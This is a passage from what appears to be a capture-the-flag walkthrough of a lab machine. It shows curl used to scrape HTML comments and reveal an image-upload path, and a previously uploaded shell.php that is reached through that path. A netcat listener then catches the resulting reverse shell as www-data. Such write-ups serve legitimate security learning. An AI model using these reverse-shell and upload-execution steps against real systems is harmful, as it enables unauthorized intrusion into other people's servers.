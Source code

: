 ![sourcecode](/assets/images/road/sourcecode.png)

>>> The first time I scanned the source code I missed the comment, using curl is a quick and crude way of pulling all the comments off a web page which can be useful with a large web page.

```highlight
└──╼ $curl -s http://10.10.149.149/v2/profile.php | grep '<!--'
    <!--<link rel="stylesheet" href="../assets/css/bootstrap.min.css" crossorigin="anonymous">-->
  <!-- <script src="/assets/js/dataTable.min.js"></script> -->
                    <!-- <div class="alert alert-danger">Take action</div> -->
          <!-- </ul> -->
<!-- /v2/profileimages/ -->
<!-- Include Required Prerequisites -->
<!-- Include Date Range Picker -->
```

Going to the path, I can list the images however I know I named my file shell.php so I navigate to 'http://10.10.149.149/v2/profileimages/shell.php'.

![profileimages](/assets/images/road/profileimages.png)

I have a shell!

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.149.149] 59984
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 10:20:14 up 32 min,  0 users,  load average: 0.00, 0.02, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
